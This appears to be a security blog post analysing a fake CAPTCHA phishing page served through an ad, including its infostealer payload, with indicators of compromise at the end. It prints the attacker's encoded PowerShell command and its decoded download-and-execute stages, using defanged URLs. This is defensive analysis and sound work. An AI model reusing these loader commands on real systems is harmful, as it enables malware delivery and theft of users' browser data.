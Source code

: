 ```yaml
---
title: CAPTCHA This!
date: 2025-05-14
draft: false
author: Kyd1ct
description: How a failed attempt at fake CAPTCHA phishing saved the day.
---
```



In this article, we’ll break down how this failed phishing attempt occurred and what would have happened if it succeeded.


## Discovery
I kept seeing articles about the phishing technique that utilises fake CAPTCHA pages. I wanted to know if I could randomly come across one of them in the wild, so I booted up my FlareVM and started browsing. I went to various websites, including travel agencies, social media, etc. (of course, without logging anywhere or inputting credentials), without AdBlock. I had planned a trip to visit a friend, so I thought, "Why not, I could check bus prices". Lo and behold, a Google ad popped up when I attempted to open one of the websites, and it was a fake CAPTCHA phishing page, impersonating a Cloudflare page.

![Fake Phishing Page.](/img/Malware/CAPTCHA_This/fakePage.jpg)

The page was later reported, and now it seems to have restricted access, showing a "Forbidden" error when trying to access it. The main domain, however, is still up and still shows `hellow` when accessed.

Let's examine the script, though:

```powershell
PowerShell.exe -ep bypass -enc KABJAG4AdgBvAGsAZQAtAHcAZQBiAHIAZQBxAHUAZQBzAHQAIAAtAFUAUgBJACAAJwBoAHQAdABwAHMAOgAvAC8AcwBoAG8AcgB0AGUAcgAuAG0AZQAvAFgATwBXAHkAVAAnACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApAC4AYwBvAG4AdABlAG4AdAAgAHwAaQBlAHgA -w 1powershell
```

So what can we identify from this?
- The command bypasses policy execution
- Runs a Base64 encoded command

We can only see red flags until we see `-w 1powershell`. This was one of the fake CAPTCHA phishing techniques that has become more frequent in the past year. However, that WindowStyle flag argument was invalid, resulting in an error without executing the script. The correct version would have been `-w 1`, which would have been an alternate version of `-WindowStyle Hidden`.

But what if the issue was not there and we accidentally ran the correct command?


## Analysis
### Static Analysis

Running the command with the correct WindowStyle argument still resulted in an error due to an incorrect User Agent. That's a second strike, so I decided to take a peek at what the encoded command does:

```powershell
(Invoke-webrequest -URI 'hxxps://shorter[.]me/XOWyT' -UseBasicParsing).content |iex
```

The command shows us that the script opens a shortened link. Checking that link in a sandbox, I identified that it contained the following command:

```powershell
Invoke-WebRequest -Uri "hxxps://bitly[.]cx/iddD" -OutFile "$env:TEMP\ComponentStyle.zip"; Expand-Archive -Path "$env:TEMP/ComponentStyle.zip" -DestinationPath "$env:TEMP"; & "$env:TEMP\crystall\Crysta_x86.exe"
```

So let's analyse it:
- It accesses another shortened URL
- Drops an archive in the TEMP directory and unzips it
- Executes the payload

I detonated the second stage payload, omitting the execution part of the script - the archive was secured, and it was time to create a snapshot.

The archive contained multiple files:
- A main executable
- Three DLL files
- a BXI and an [RC](https://learn.microsoft.com/en-us/windows/win32/menurc/about-resource-files) file.

![Fake Phishing Page.](/img/Malware/CAPTCHA_This/archiveFiles.png)

When checked in [VirusTotal](https://www.virustotal.com/gui/file/94bc0c01641801f258e207eca8227845f3f1c686e7394ce3864a6b2538b8eadb/details), we can see that vendors did not observe any clear indicators of malicious activity. We can also see that it was first submitted in 2011, and it is also signed and verified by Sonic Solutions, with the product being `DivX Download Manager Service`. While the binary is signed, it is likely vulnerable, making it possible to add malicious capabilities to it with the DLL files and the RC/BXI files.

Examining the strings does not provide much useful information, though it shows us that the file is capable of registry and process manipulation. We can also see the signature provided by **VeriSign**.

### Dynamic Analysis

Detonating the malware immediately shows a new process called **MSBuild.exe**, which appears to be associated with **Flexera Software** according to PEStudio. It also runs **tcpvcon.exe**, which is **SysInternal's TCPView** tool.

![First Processes.](/img/Malware/CAPTCHA_This/firstProcesses.png)

Eventually, it also opens multiple Chrome processes, however, no visible windows or tabs were opened.

![Chrome Processes.](/img/Malware/CAPTCHA_This/chromeProcesses.png)

The malicious software creates a copy of itself within `C:\ProgramData\PatchSystemCUS\`, while the `tcpvcon.exe` file was dropped in `C:\Users\<UserName>\AppData\Roaming\PatchSystemCUS`

![Persistence.](/img/Malware/CAPTCHA_This/malwareCopies.png)

![TCPView.](/img/Malware/CAPTCHA_This/tcpView.png)

When it comes to what the malware actually does, it appears to be a classic infostealer. The malicious software attempted to look for data files related to popular browsers like Google Chrome, Brave, Opera, CentBrowser, and many other region-specific browsers like Sputnik, etc.

![Chrome Data.](/img/Malware/CAPTCHA_This/chromeData.png)

![Browser Data.](/img/Malware/CAPTCHA_This/browserData.png)

It also targeted the TCPIP registries, enumerating hostname, DNSclient, and other keys in an attempt to steal details related to the machine's connections. It also enumerated all directories within the virtual machine.

![TCP Info.](/img/Malware/CAPTCHA_This/tcpInfo.png)

![File Enumeration.](/img/Malware/CAPTCHA_This/fileEnumeration.png)

Finally, I observed that the malicious sample went through the Uninstall registry keys, presumably to enumerate installed software and identify specific data "troves" or hindrances (such as security tools).

![Installed Software.](/img/Malware/CAPTCHA_This/installedSoftware.png)

The file communicated with an external IP address at regular intervals, likely serving as a command and control (C2) server for data exfiltration by the malicious binary.

![C2 Connection.](/img/Malware/CAPTCHA_This/c2Connection.png)

![C2 Connection Part 2.](/img/Malware/CAPTCHA_This/c2Connection2.png)

###  Conclusion
In summary, phishing pages like these are far from rare—they can appear anywhere in the wild, even through ads served by reputable networks. Any unsuspecting user could run the malicious command, risking data leaks or other serious consequences. We also can't depend on attackers making mistakes, which highlights just how essential cybersecurity awareness is for both individuals and organisations.

## IoCs  

### Hashes
- [deb5bd989c9fdd5fe7f78f00a1216eb0](https://www.virustotal.com/gui/file/2ec47cbe6d03e6bdcccc63c936d1c8310c261755ae5485295fecac4836d7e56a/details)
- [2d4fdba00b7f7b02408a8ea6c199037e](https://www.virustotal.com/gui/file/a8ba1e14249cdd9d806ef2d56bedd5fb09de920b6f78082d1af3634f4c136b90/details)
- [e43ec4f0aa69a344fcb8431e60195f0f](https://www.virustotal.com/gui/file/08f351477e71a4fa872a7b16455af9e2bd5dc38adef600a7310ce28acc94aad6/details)
- [ff254c1778aefe5af06889f1f999dee3](https://www.virustotal.com/gui/file/94bc0c01641801f258e207eca8227845f3f1c686e7394ce3864a6b2538b8eadb/details)

### IP Addresses
- [144.172.97[.]2](https://www.virustotal.com/gui/ip-address/144.172.97.2/detection)